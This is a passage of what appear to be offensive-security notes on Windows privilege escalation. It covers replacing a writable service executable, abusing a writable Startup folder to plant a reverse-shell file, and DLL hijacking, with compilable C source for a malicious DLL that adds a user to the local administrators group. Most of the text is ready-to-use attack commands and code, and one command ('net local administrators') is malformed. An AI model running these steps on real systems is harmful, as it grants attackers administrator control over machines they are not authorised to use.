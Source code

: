 we should find our user in local administrators.


## Executable files


we need to find a file with everyone access:

```
accesschk64.exe -wvu ...nomefile
```

replace that file with our fake exe that add a local administrator

```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

```
sc start filepermsvc
```

```
net local administrators
```


## Startup Applications

check if we have permission:

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

BUILTIN\users:(F) <-- F = full access

we can add a file that spawns reverse shell

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

## DLL Hijacking

use procmon (sysinternals) and configure a filter like:

```
result = "NAME NOT FOUND"
```

and

```
end with = ".dll"
```

once we found a "ghost" dll (which has some reference but it is NOT present), we compile a fake one:

windows_dll.c

```
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

